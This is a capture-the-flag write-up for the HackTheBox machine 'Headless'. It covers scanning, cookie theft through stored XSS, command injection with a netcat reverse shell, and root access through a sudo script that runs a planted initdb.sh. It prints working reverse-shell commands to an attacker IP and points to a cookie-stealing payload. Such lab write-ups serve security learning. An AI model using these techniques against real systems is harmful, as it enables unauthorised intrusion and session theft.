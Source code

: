 ```yaml
---
title: HackTheBox - Headless
date: 2024-08-05 18:09:00 +0800
categories:
  - hackthebox
tags:
  - ctf
---
```



### STEP 1 SCAN 

First of all, let's do an nmap scan with the following flag:

```nmap -p- -sC -sV -T4 10.10.11.8```

- -p- to scan all ports
- -sC to execute the default scripts
- -sV to see which services are running
- -T4 to to use a timing template to make our scan faster

With the output of our scan we can see we have 2 ports open:
![nmap.png](nmap.png)
- Port 22 for ssh(Secure Shell), this will not interest us because it is very rare to find a security vulnerability on the SSH protocol
- Port 5000 we have an http server, it will greatly interest us because we now know that we have to deal with a web server

Just open the browser with the following url 
https://IP_TARGETED:PORT_NUMBER

![website1](website1.png)

### STEP 2 ENUMERATION

Now that we know we are dealing with a web server we can perform dirbusting to know the files of the website

I used gobuster for this with the following flags :
- dir for dirbusting(enumeration of the directories of the website)
- -u to specify the url targeted
- -w to specify the wordlist to use

Either the following command
``` gobuster dir -u http://10.10.11.8:5000/ -w /./usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt ```

With the following output of our gobuster command we can see we have only two directories for this website:
![website2.png](website2.png)

When we're on the the website with the IP address following by the port is we click on the button "For questions" we're redirected on the directory /support 

We can not access the/dashboard because as a user we are not allowed, so it must be borne in mind that connection cookies will make full part of this challenge

### 3 STEP INTERACT LIKE A USER

Ok, now we're here
![website3.png](website3.png)
If we complete each section and click on submit, nothing happens. 
In this case we can try to do an XSS(Cross Site Scripting) a persistent XSS (because we will inject malicious code form that will be injected and run in the browser of the victim)

Like this : 
![website4.png](website4.png)

Now we have something is going on:
![website5.png](website5.png)

Now that we’re done acting as a user, it’s time to put on the hacker hood to slip on your best goodie and launch burpsuite

###  STEP 4 TRY TO HAVE ACCESS TO DASHBOARD

Here, the objective is to get the cookie of the administrator to be able to connect to the dashboard, that’s why we will put our machine on listening on the port of our choice (here port 9001), to be able to receive the cookie from the administrator when his browser will load our form.

Use the following command to put your machine on listening.

```nc -lnvp 9001 ```

- nc stands for the tool netcat
- -l for listen mode
- -v for verbosity
- -n only for IP address
- -p to specify the specific port


Just launch burpsuite (if you're like what's that tool don't worry we can learn that [here](https://www.geeksforgeeks.org/what-is-burp-suite/))
![burpsuite_off.png](burpsuite_off.png)

You can enable request interception,
![burpsuite_on.png](burpsuite_on.png)
When we return our malicious request we can change the parameters here in this case the user agent parameter because the modification of the user agent does not change the data contained in the request.

We can find our xss payload [here](https://gist.github.com/leveled/2b5d2b2c458f553b17c65551487cee9b#file-xss-payload-steal-session-cookie) :
In the payload just replace by your IP address following by the port of your choice (here 9001)

Now we have what we are looking for :
![burp1.png](burp1.png)
 Now as we can see the admin cookie is our :
 ![response_nc.png](response_nc.png)

In your browser now you can try to access to the dashboard directory, if you can't don't worry it is normal, the only thing you need to do is to go to the developer console of your browser and to enter in the Storage section --> Cookies section --> And to replace the value of the cookie present with that of our admin
![cookie.png](cookie.png)

### STEP 5 LET'S TAKE A FOOT IN THE MACHINE

Now from this dashboard we will see with the help of ntore ami burp suite what happens when we click on the button "Generate a report".

![before_ci.png](before_ci.png)

we can see if there are a command injection ?

![ci.png](ci.png)

That's right, we have a command injection.

What we’re going to do is we’re going to create a reverse shell and we’re going to url encode our command to make sure that our reverse shell works

That's our command, 

```nc 10.10.16.11 60000 -e /bin/bash ```

Now let's url encode:

nc%2010.10.16.11%2060000%20-e%20%2Fbin%2Fbash

you need before performing the command injection to listen on the port of your choice here port 60000

``` nc -lnvp 60000```

just put our command and send the request

![ci2.png](ci2.png)


Now we have one foot in the machine :
(We can have a better shell using the command 
```python3 -c 'import pty; pty.spawn("/bin/bash")'``` )

![revshell1.png](revshell1.png)

We can now obtain our first flag

![screenflag.png](screenflag.png)

Let's goo !!!! We're a user, ok now let's try to be root!!!

### STEP 6 : A PRIVILEGE ESCALATION MUST BE PERFORMED

with the command ```sudo -l```, let's which command we can run 
We have this output:

Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck

We need to have more information about this command syscheck
The bash code behind this command is as follows

```bash
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

this command execute an other file initdb.sh and that's very interesting because when you type 
```shell
find -type f -name "initdb.sh"
```
We can see we have no output the file "initdb.sh" doesn't exist then we can create it, let's go.

I jump in the folder /./tmp because we need to have full rights to create and modify our "initdb.sh" like this (We use the binary netcat to do a priviledge escalation):

```shell
echo '#!/bin/bash' > initdb.sh ; echo 'nc 10.10.16.11 60001 -e "/bin/bash"' >> initdb.sh
```

We just have to execute our command :

```shell
sudo syscheck
```

And as you can see :

![root.png](root.png)

Now you just have to cat the flag and GG you pwn the Headless Machine.

If you ever have the machine pwn in another way or you find my post incomplete do not hesitate to notify me via my twitter

Thank you for reading this post, have a good day.




















